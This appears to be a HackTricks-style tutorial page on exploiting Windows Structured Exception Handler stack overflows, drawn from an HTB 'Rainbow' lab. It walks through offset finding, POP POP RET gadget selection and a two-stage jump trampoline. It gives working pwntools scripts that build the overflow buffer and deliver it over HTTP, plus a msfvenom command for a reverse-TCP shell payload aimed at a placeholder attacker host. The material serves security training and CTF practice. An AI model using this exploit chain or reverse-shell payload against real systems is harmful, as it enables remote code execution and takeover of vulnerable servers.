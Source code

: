 # Windows SEH Overflows

{{#include ../../banners/hacktricks-training.md}}

Structured Exception Handler (SEH) exploitation is a classic Windows-specific technique to gain control of execution when a stack buffer overflow overwrites the exception chain instead of the saved return address. This is common in 32-bit custom parsers/servers that copy attacker data into fixed-size stack buffers.

Key idea:
- When an access violation occurs, Windows walks the thread's SEH chain: [Next SEH (4B)] → [SEH handler (4B)] → ...
- If we overflow into these fields, we can place a short jump in Next SEH, and point SEH to a POP POP RET gadget in a module without SafeSEH/ASLR.
- Upon exception, the dispatcher executes POP POP RET, returning into our controlled bytes at Next SEH, which jumps back to a long jump that sends execution into our shellcode at the start of the buffer.

## Prerequisites and Protections
- Target is a 32-bit process with a stack-based overflow reaching the SEH records.
- Identify a module without SafeSEH and preferably without ASLR to host a reliable POP POP RET (PPR) gadget.
  - Commonly the main executable (.exe) is non-ASLR and compiled without SafeSEH.
- Typical bad chars in HTTP-based exploits: 00, 0a, 0d. Adjust per-protocol.
- DEP/NX: SEH does not bypass DEP by itself. In many CTF-like or legacy targets the stack is executable; otherwise prepare ROP/VirtualProtect/VirutalAlloc chains.

## Finding the Next SEH Offset
1) Trigger the crash sending a large payload and confirm the process restarts or is restartable.
2) Send a cyclic pattern as the overflow body, then note the values that land in Next SEH and SEH at crash time.

Using pwntools for a De Bruijn pattern:
```python
from pwn import *
pat = cyclic(2000)
# send pat as the overflowing body
# On crash, read Next SEH/SEH and find offsets:
off_nseh = cyclic_find(b"BBBB")  # example
off_seh  = off_nseh + 4
```

Or use x64dbg with ERC.Xdbg helpers to locate the Next SEH overwrite quickly.

Example observed in practice: Next SEH at offset 660 from the start of the buffer.

## Choosing a POP POP RET gadget
Find a POP POP RET in a module without SafeSEH/ASLR:
- In x64dbg with ERC.Xdbg: `ERC --SEH` and pick a PPR in a suitable module.
- In Immunity/Mona: `!mona modules` then `!mona seh` or `!mona ppr -m module.dll`.

Example: PPR in the main binary at 0x004094d8 (rainbow.exe, no ASLR/SafeSEH).

## Two-stage SEH Trampoline
Next SEH gives only 4 bytes. To jump far back into the buffer:
- Place a 5-byte long jmp just before Next SEH (E9 rel32)
- Put a 2-byte short jmp in Next SEH to hop backwards into the long jmp
- Put the PPR address in SEH

Useful opcodes (from nasm):
```
jmp -652        =>  E9 6F FD FF FF   # 5 bytes long jmp to the start of buffer
jmp short -8    =>  EB F6             # 2 bytes short jmp back into long jmp
```

## Layout
Let offset be where Next SEH starts (e.g., 660):
```
[ NOP sled + shellcode ] ... [ pad to (offset-8) ]
[ long jmp (5B) ] [ pad (3B) ]
[ Next SEH: short jmp (2B) + pad (2B) ]
[ SEH: PPR (4B) ]
[ trailing pad ]
```

Python builder (adapt to your offsets and gadget):
```python
from pwn import p32

offset = 660  # Next SEH
seh_ppr = 0x004094d8  # POP POP RET in non-ASLR, non-SafeSEH module

# msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp \
#   LHOST=<LHOST> LPORT=<LPORT> -b '\x00\x0a\x0d' -f python -v sc
sc = b""  # your shellcode here

buf  = b"\x90"*50 + sc
buf += b"A"*(offset-8 - len(buf))
# long jmp back into the shellcode region
buf += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"   # 5B long jmp + 3B pad
buf += b"\xEB\xF6" + b"BB"                   # Next SEH: short jmp -8 + pad
buf += p32(seh_ppr)                            # SEH: PPR
buf += b"D"*(1500 - len(buf))                  # pad to desired length
```

## Minimal crash and full HTTP delivery
Stage 1 – prove crash and measure:
```python
from pwn import remote
import sys

body = b"A"*1000
req = (f"POST / HTTP/1.1\r\nHost: {sys.argv[1]}:{sys.argv[2]}\r\n"
       f"User-Agent: curl\r\nAccept: */*\r\nContent-Length: {len(body)}\r\n"
       f"Connection: keep-alive\r\n\r\n").encode() + body
p = remote(sys.argv[1], int(sys.argv[2]))
p.send(req)
p.close()
```

Stage 2 – send SEH trampoline + shellcode:
```python
from pwn import remote
import sys

# build 'buf' as in layout above
body = buf
req = (f"POST / HTTP/1.1\r\nHost: {sys.argv[1]}:{sys.argv[2]}\r\n"
       f"User-Agent: curl\r\nAccept: */*\r\nContent-Length: {len(body)}\r\n"
       f"Connection: keep-alive\r\n\r\n").encode() + body
p = remote(sys.argv[1], int(sys.argv[2]))
p.send(req)
p.close()
```

Notes:
- Always set an accurate Content-Length so the server reads the entire body into the vulnerable buffer.
- Avoid bad chars present in the protocol or parser. For HTTP bodies, avoiding 00, 0A, 0D is often sufficient.
- If only SafeSEH modules are present, a classic SEH PPR redirection will fail. Look for a non-SafeSEH module (often the main .exe), or pivot to a DEP/ROP strategy.

## Troubleshooting
- Crash but no SEH overwrite: your body may be too small or the overflow is elsewhere (e.g., header parsing). Increase size or fuzz other inputs.
- PPR contains badchars: choose another PPR in a different module or adjust target.
- Jump distances wrong: recompute using a real assembler (nasm/ndisasm/keystone) and verify offsets in the debugger.

## Tools
- x64dbg/x32dbg for interactive debugging
- ERC.Xdbg to enumerate SEH gadgets quickly in x64dbg
- nasmshell for quick opcode assembly
- pwntools for transport
- msfvenom to generate shellcode respecting badchars

## References
- [HTB: Rainbow – 0xdf](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [x64dbg](https://x64dbg.com/)
- [ERC.Xdbg – SEH/gadget helper](https://github.com/Andy53/ERC.Xdbg)
- [nasmshell](https://github.com/fishstiqz/nasmshell)
- [pwntools](https://docs.pwntools.com/)
- [Metasploit msfvenom docs](https://docs.metasploit.com/)

{{#include ../../banners/hacktricks-training.md}}